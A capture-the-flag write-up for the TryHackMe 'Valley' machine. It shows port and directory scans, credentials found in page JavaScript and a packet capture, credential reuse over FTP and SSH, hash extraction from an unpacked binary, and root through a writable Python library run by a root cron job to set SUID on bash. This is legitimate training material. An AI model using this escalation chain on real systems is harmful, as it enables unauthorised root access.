

# Valley Writeup by 1nsouciance (l1asis)


### Let's enumerate open ports:
```bash
sudo nmap -sS -sV -p- <ip> -oN nmap_result
```
### ***Nmap results:***
```
Nmap scan report for localhost (<ip>)
Host is up (0.054s latency).
Not shown: 65532 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp    open  http    Apache httpd 2.4.41 ((Ubuntu))
37370/tcp open  ftp     vsftpd 3.0.3
Service Info: OSs: Linux, Unix; CPE: cpe:/o:linux:linux_kernel

Nmap done at <redacted> -- 1 IP address (1 host up) scanned in 41.25 seconds
```

### FTP, HTTP and ssh... What sweets can we find on the website... ?


### Eh. Nothing of our interest. Maybe some forgotten notes in the index.html... ?


### Nope. We'll use gobuster to enumerate directories & subdirectories & files:
```bash
gobuster dir -u "http://<ip>/" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x=txt,php,js,png,html
```

### ***Gobuster results `http://<ip>`:***
```
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 277]
/index.html           (Status: 200) [Size: 1163]
/gallery              (Status: 301) [Size: 314] [--> http://<ip>/gallery/]
/static               (Status: 301) [Size: 313] [--> http://<ip>/static/]
/pricing              (Status: 301) [Size: 314] [--> http://<ip>/pricing/]
```

### ***Gobuster results `http://<ip>/static`:***
```
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 277]
/11                   (Status: 200) [Size: 627909]
/12                   (Status: 200) [Size: 2203486]
... redacted for brevity
/7                    (Status: 200) [Size: 5217844]
/8                    (Status: 200) [Size: 7919631]
/00                   (Status: 200) [Size: 127]
```

### Whoa!!! There's a file that doesn't seem to be a photo or anything, let's check it out:


### Hidden note!!! It is now up to us to investigate this forgotten `dev1243224123123` subdirectory:


### Login panel. What's in the source of the page?
```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <title>Login</title>
  <link rel="stylesheet" href="style.css">
  <script defer src="dev.js"></script>
  <script defer src="button.js"></script>
</head>
<!-- ... redacted for brevity -->
```

### `dev.js`... Interesting, let's see what's in that javascript file, maybe some forgotten login credentials or consequences of insecure design?
```js
// ... redacted for brevity
loginButton.addEventListener("click", (e) => {
    e.preventDefault();
    const username = loginForm.username.value;
    const password = loginForm.password.value;

    if (username === "siemDev" && password === "<redacted>") {
        window.location.href = "/dev1243224123123/devNotes37370.txt";
    } else {
        loginErrorMsg.style.opacity = 1;
    }
})
```

### Login credentials and another note that we can access directly! Let's check the note and remember the credentials.


### `Stop reusing credentials`... What if we try to log in to the ftp server with these credentials? ?
```bash
ftp ftp://siemDev@<ip>:37370
```

### ***FTP Result:***
```
Connected to <ip>.
220 (vsFTPd 3.0.3)
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
200 Switching to Binary mode.
ftp> ls
229 Entering Extended Passive Mode (|||50332|)
150 Here comes the directory listing.
-rw-rw-r--    1 1000     1000         7272 Mar 06  2023 siemFTP.pcapng
-rw-rw-r--    1 1000     1000      1978716 Mar 06  2023 siemHTTP1.pcapng
-rw-rw-r--    1 1000     1000      1972448 Mar 06  2023 siemHTTP2.pcapng
226 Directory send OK.
```

### What we see here are exactly three packet capture files. My suggestion is to examine these HTTP .pcapng files with Wireshark and try to export some objects:

### ***`siemHTTP1.pcapng` Result:***


### Nothing interesting. What's in the next file?


### `index.html` of size 42 bytes. What's in it?
```
uname=valleyDev&psw=<redacted>&remember=on
```

### Another account in our pocket! Maybe we can use this one to log in via ssh?
```bash
ssh valleyDev@<ip>
```

```bash
valleyDev@valley:~$ id
uid=1002(valleyDev) gid=1002(valleyDev) groups=1002(valleyDev)
valleyDev@valley:~$ ls -lha
total 24K
drwxr-xr-x 5 valleyDev valleyDev 4.0K Mar 13  2023 .
drwxr-xr-x 5 root      root      4.0K Mar  6  2023 ..
-rw-r--r-- 1 root      root         0 Mar 13  2023 .bash_history
drwx------ 3 valleyDev valleyDev 4.0K Mar 20  2023 .cache
drwx------ 4 valleyDev valleyDev 4.0K Mar  6  2023 .config
drwxr-xr-x 3 valleyDev valleyDev 4.0K Mar  6  2023 .local
-rw-rw-rw- 1 root      root        24 Mar 13  2023 user.txt
valleyDev@valley:~$ cat user.txt 
THM{redacted}
```

### And that was our first flag. Next, let's try to find some interesting files to examine
```bash
valleyDev@valley:~$ cd ..
valleyDev@valley:/home$ ls -lha
total 752K
drwxr-xr-x  5 root      root      4.0K Mar  6  2023 .
drwxr-xr-x 21 root      root      4.0K Mar  6  2023 ..
drwxr-x---  4 siemDev   siemDev   4.0K Mar 20  2023 siemDev
drwxr-x--- 16 valley    valley    4.0K Mar 20  2023 valley
-rwxrwxr-x  1 valley    valley    732K Aug 14  2022 valleyAuthenticator
drwxr-xr-x  5 valleyDev valleyDev 4.0K Mar 13  2023 valleyDev
valleyDev@valley:/home$ file valleyAuthenticator 
valleyAuthenticator: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, no section header
```

### `valleyAuthenticator`... We should definitely download this file and see what's in it:
```bash
└─$ scp valleyDev@<ip>:/home/valleyAuthenticator .
```
```bash
└─$ strings valleyAuthenticator | head -n 5
UPX!
"E&8
/p8S
a64\
o+_x
```

### A-ha. It's packed using UPX, so let's unpack it and examine it further:
```bash
└─$ upx -d -o valleyAuthenticatorDecompressed.elf valleyAuthenticator
└─$ strings output.elf | grep "password" -B 5 -A 5
tKU1
e6722920ba...<redacted>
dd2921cc76...<redacted>
Welcome to Valley Inc. Authenticator
What is your username: 
What is your password: 
Authenticated
Wrong Password or Username
basic_string::_M_construct null not valid
%02x
basic_string::_M_construct null not valid                                      
```

### We found two lines that appear to be hashes, let's check them on [crackstation.net]([https://crackstation.net/])


### Indeed, these were the credentials for a new user! Let's jump in:
```bash
valleyDev@valley:~$ su valley
Password: 
valley@valley:/home/valleyDev$ id
uid=1000(valley) gid=1000(valley) groups=1000(valley),1003(valleyAdmin)
```

### Great, now we are in the group `valleyAdmin`. But what does that give us? Let's look for some files that might give us a clue. Maybe there's something in `/etc/crontab`?
```bash
valley@valley:/home/valleyDev$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
1  *    * * *   root    python3 /photos/script/photosEncrypt.py
```

### There's a script called `photosEncrypt.py` in the `/photos` directory... Let's have a look:
```bash
valley@valley:/photos$ ls -lhaR
.:
total 21M
drwxr-xr-x  4 root   root   4.0K Mar  6  2023 .
drwxr-xr-x 21 root   root   4.0K Mar  6  2023 ..
-rw-rw-r--  1 valley valley 1.9M Mar  6  2023 p1.jpg
-rw-rw-r--  1 valley valley 7.6M Mar  6  2023 p2.jpg
-rw-rw-r--  1 valley valley 2.9M Mar  6  2023 p3.jpg
-rw-rw-r--  1 valley valley 2.2M Mar  6  2023 p4.jpg
-rw-rw-r--  1 valley valley 1.7M Mar  6  2023 p5.jpg
-rw-rw-r--  1 valley valley 4.3M Mar  6  2023 p6.jpg
drwxr-xr-x  2 root   root   4.0K Mar  6  2023 photoVault
drwxr-xr-x  2 root   root   4.0K Mar  6  2023 script

./photoVault:
total 28M
drwxr-xr-x 2 root root 4.0K Mar  6  2023 .
drwxr-xr-x 4 root root 4.0K Mar  6  2023 ..
-rw-r--r-- 1 root root 2.6M Jan 23 07:50 p1.enc
-rw-r--r-- 1 root root  11M Jan 23 07:50 p2.enc
-rw-r--r-- 1 root root 3.8M Jan 23 07:50 p3.enc
-rw-r--r-- 1 root root 3.0M Jan 23 07:50 p4.enc
-rw-r--r-- 1 root root 2.3M Jan 23 07:50 p5.enc
-rw-r--r-- 1 root root 5.7M Jan 23 07:50 p6.enc

./script:
total 12K
drwxr-xr-x 2 root root 4.0K Mar  6  2023 .
drwxr-xr-x 4 root root 4.0K Mar  6  2023 ..
-rwxr-xr-x 1 root root  621 Mar  6  2023 photosEncrypt.py
```

```bash
valley@valley:/photos$ cat ./script/photosEncrypt.py 
```

```python
#!/usr/bin/python3
import base64
for i in range(1,7):
# specify the path to the image file you want to encode
        image_path = "/photos/p" + str(i) + ".jpg"

# open the image file and read its contents
        with open(image_path, "rb") as image_file:
          image_data = image_file.read()

# encode the image data in Base64 format
        encoded_image_data = base64.b64encode(image_data)

# specify the path to the output file
        output_path = "/photos/photoVault/p" + str(i) + ".enc"

# write the Base64-encoded image data to the output file
        with open(output_path, "wb") as output_file:
          output_file.write(encoded_image_data)
```

### This script periodically encrypts all the files in the `/photos` directory using base64 with `root` permissions and saves them with `.enc` extension in `/photos/photoVault/`. Interesting, let's see if there are any files we can access with our `valleyAdmin` group:
```bash
valley@valley:/photos$ find / -group valleyAdmin 2>/dev/null
/usr/lib/python3.8
/usr/lib/python3.8/base64.py
```

### Hmm, special permissions for our group for base64.py? I'll have a look at it.
```bash
valley@valley:/usr/lib/python3.8$ ls -la | grep base64.py
-rwxrwxr-x   1 root valleyAdmin  20382 Mar 13  2023 base64.py
```

### Ho-ho-ho, we can write to it!!! At this point we can do anything we want, because we are able to execute arbitrary commands directly by putting them into this file and `cron` will do its job. Let's give `/bin/bash` the SUID bit and get our `root` privileges:


### Wait a few minutes for `cron` to run `photosEncrypt.py`...
```bash
valley@valley:/usr/lib/python3.8$ bash -p
bash-5.0# whoami
root
```

### And the last flag!
```bash
bash-5.0# ls /root
root.txt  snap
bash-5.0# cat /root/root.txt 
THM{redacted}
```

## That's all. Thanks for reading, stay safe :\)